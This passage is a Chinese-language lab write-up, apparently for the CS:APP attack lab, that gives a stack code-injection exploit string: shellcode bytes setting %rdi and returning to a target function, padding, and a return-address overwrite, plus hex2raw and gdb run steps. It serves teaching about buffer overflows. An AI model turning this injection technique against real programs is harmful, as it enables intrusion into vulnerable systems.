 查看要注入到的rsp所指向的地址
![](./assets/3.%20lab3-attack/2023-08-08-17-14-56.png)

组合一下，答案为：

```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00       /* push   $0x4017ec */
c3                   /* ret */ /* 到这里共13个字节 */
00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补27个字节 */
78 dc 61 55 /* %rsp */ /* 最后四个字节，覆盖getbuf函数的返回地址 */
```

保存为phase1_2.txt

转换：
```
./hex2raw < phase1_2.txt > phase1_2
```

运行：
```
run -q -i phase1_2
```
